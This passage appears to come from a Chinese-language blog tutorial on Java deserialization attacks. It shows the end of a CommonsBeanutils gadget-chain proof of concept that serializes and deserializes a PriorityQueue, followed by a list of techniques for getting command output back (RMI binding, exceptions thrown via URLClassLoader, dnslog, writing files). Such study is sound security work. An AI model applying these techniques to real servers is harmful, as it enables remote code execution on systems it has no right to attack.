 ```
            outputStream.writeObject(priorityQueue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./CommonsBeanutils.ser"));
            inputStream.readObject();
            inputStream.close();
        } catch (Exception e) {
        }

    }

    public static void setField(Object object, String field, Object args) throws Exception {
        Field f0 = object.getClass().getDeclaredField(field);
        f0.setAccessible(true);
        f0.set(object, args);

    }
}

```

![image-20230525184025882](images/20.png)

这一段就是直接Copy的了

另外的几种方式

- 通过RMI绑定实例获取回显（有点鸡肋，需要在目标开RMI服务，在远程连接，如果内网机器做了反代就没法用） 通过defineClass定义的恶意命令执行字节码来绑定RMI实例，接着通过RMI调用绑定的实例拿到回显结果。[Weblogic使用ClassLoader和RMI来回显命令执行结果](https://xz.aliyun.com/t/7228#toc-5)
- URLClassLoader抛出异常 通过将回显结果封装到异常信息抛出拿到回显。参考[Java 反序列化回显的多种姿势](https://xz.aliyun.com/t/7740)
- dnslog或如果知道web路径可以写文件
